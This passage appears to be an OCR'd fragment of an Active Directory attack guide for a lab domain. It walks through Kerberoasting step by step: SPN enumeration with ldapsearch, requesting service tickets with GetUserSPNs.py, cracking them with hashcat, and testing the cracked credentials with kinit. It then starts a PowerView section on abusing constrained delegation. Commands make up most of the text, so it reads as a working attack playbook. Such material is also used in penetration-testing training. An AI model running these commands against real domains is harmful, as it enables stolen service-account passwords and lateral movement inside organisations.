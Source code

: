     ```bash
    ldapsearch -x -H ldap://dc1.lab.local -b "DC=lab,DC=local" "(servicePrincipalName=*)" sAMAccountName,servicePrincipalName
    
    ```
    
    _Look for lines:_
    
    ```text
    sAMAccountName: svc_http
    servicePrincipalName: HTTP/SRV1.lab.local
    
    ```
    
2.  **Request TGS Tickets**
    
    ```bash
    GetUserSPNs.py -request -dc-ip dc1.lab.local lab.local/DOMAINUSER:Pass > spn.hashes
    
    ```
    
    _Check_: `spn.hashes` contains encrypted tickets.
    
3.  **Offline Cracking**
    
    ```bash
    hashcat -m 13100 spn.hashes wordlist.txt
    
    ```
    
    _Result_: Plaintext passwords, e.g., `svc_http:P@ssw0rd123`.
    
4.  **Validate Credentials**
    
    ```bash
    kinit svc_http@LAB.LOCAL
    
    ```
    
    _Success Indicator_: No error; `klist` shows new TGT.
    

----------

### 2. Kerberos Double Hop & Constrained Delegation

_Exploit services configured to delegate on behalf of users._

#### Tools & Commands

-   **Get-DomainObject** (PowerView)
    
    ```powershell
    # List services with constrained delegation
    Import-Module .\PowerView.ps1
    Get-DomainObject -SearchBase "OU=Services,DC=lab,DC=local" -LDAPFilter "(msDS-AllowedToDelegateTo=*)" -Properties msDS-AllowedToDelegateTo
    
    ```
    